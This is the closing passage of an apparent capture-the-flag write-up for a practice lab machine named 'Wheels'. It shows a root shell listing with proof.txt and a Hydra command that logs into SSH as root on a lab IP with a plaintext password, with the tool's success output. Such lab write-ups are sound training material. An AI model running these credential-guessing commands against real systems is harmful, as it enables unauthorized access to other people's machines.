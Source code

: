 ```
drwxr-xr-x  2 root root 4096 May 11  2022 details
drwxr-xr-x  3 root root 4096 Jan  7  2021 .local
-rw-------  1 root root  195 May 11  2022 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root   33 Jan 23 13:50 proof.txt
drwxr-xr-x  3 root root 4096 Jan  7  2021 snap
drwx------  2 root root 4096 Jan  7  2021 .ssh
root@wheels:~# 
```

If we had also brute force root password it would have work lol

```                                                                                                                                                                                              
┌──(venv)─(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ hydra -l root -p highschoolmusical ssh://192.168.66.202
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-23 16:13:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://192.168.66.202:22/
[22][ssh] host: 192.168.66.202   login: root   password: highschoolmusical
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-23 16:13:21
```

And we're done 


<br> <br>
[Back To Home](../../index.md)
<br>









